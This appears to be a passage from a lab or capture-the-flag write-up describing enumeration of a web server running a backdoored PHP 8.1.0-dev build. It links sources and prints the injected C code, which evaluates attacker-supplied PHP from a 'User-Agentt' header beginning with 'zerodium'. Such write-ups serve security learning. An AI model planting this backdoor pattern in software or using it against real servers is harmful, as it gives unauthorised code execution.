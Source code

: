 ```bash
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsed port 80:

![Pasted image 20210522215422.png](../../zzz_res/attachments/Pasted_image_20210522215422.png)

Enumerated web components: 

![Pasted image 20210522215529.png](../../zzz_res/attachments/Pasted_image_20210522215529.png)

- PHP 8.1.0
- Apache 2.4.41

After some time invested in enumeration without identifying criticality, I document on this “strange” version of PHP in which I had never encountered, discovering that it had been “backdoored” while under development.

- [PHP backdoor attempt shows need for better code authenticity verification](https://www.csoonline.com/article/3613593/php-backdoor-attempt-shows-need-for-better-code-authenticity-verification.html)
- [Revert "Revert "[skip-ci] Fix typo"" · php/php-src@2b0f239](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370)
- [[skip-ci] Fix typo · php/php-src@c730aa2](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370)

## Foothold

The code injected within PHP 8.1.0-dev executes arbitrary code from the `USER_AGENTT` header when it starts with *zerodium*:

```php
...
{
	zval zoh;
	php_output_handler *h;
	zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
...
```
